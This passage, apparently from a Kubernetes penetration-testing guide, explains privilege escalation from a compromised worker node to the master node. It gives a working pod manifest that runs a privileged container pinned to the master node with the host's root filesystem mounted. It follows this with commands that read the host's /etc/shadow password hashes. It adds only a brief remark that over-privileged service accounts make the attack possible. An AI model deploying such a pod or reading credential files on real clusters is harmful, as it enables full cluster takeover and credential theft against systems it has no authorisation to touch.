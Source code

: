 ## Privesc from worker to master node

We have access to the Worker Node, Now the goal is to get access to the Master Node


Create a second malicious node specifying the Master Node:

maliicous.yaml
```yml
apiVersion: v1
kind: Pod
metadata:
  name: attacker2
  labels:
   app: attacker2
spec:
 containers:
 - name: attacker2
   image: hackingkubernetes/api:latest
   imagePullPolicy: IfNotPresent
   volumeMounts:
    - name: hostsvolume
      mountPath: /attacker
   ports:
    - containerPort: 80
   securityContext:
    privileged: true
 nodeName: <master name> 
 volumes:
 - name: hostsvolume
   hostPath:
    path: /
```

> We got the names of other notes in the enumeration phase  with ‘kubectl get nodes’ 


Get a shell on the new malicious pod

- We should get access to the master with the same way through the host mount file system

check:
```bash
cat /attacker/etc/hostname
cat /attacker/etc/shadow
```


> NOTE: if the service account was not created with excessive privileges, this attack would not be possible


## Attacking the API Server

> If an attacker get access to the API Server , its possible to get full access to the Cluster 
